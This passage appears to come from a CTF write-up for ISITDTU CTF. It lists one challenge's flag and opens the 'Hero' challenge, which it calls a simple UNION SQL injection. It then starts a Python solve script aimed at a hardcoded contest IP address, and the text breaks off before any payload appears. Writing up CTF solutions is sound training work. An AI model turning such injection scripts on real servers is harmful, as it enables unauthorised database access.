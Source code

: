 ![image](img/hihi1.png)

Flag: `ISITDTU{We1come_t0_1s1tDTU_CTF}`

### Hero

![image](img/hero.png)

I solve it after the contest. It's easy if you find out [this blog](https://cyku.tw/no-database-mssql-injection/). All detail is in the blog so i just give solve script (simple UNION SQL Injection).

```python
#!/usr/bin/env python3
import requests, os, sys
import re

def cleanhtml(raw_html):
    cleanr = re.compile('<.*?>')
    cleantext = re.sub(cleanr, '', raw_html)
    cleantext = re.sub(r'\s+', ' ', cleantext).strip() 
    return cleantext

BASE_URL = 'http://213.35.127.196:63432/'
username = os.urandom(16).hex()
```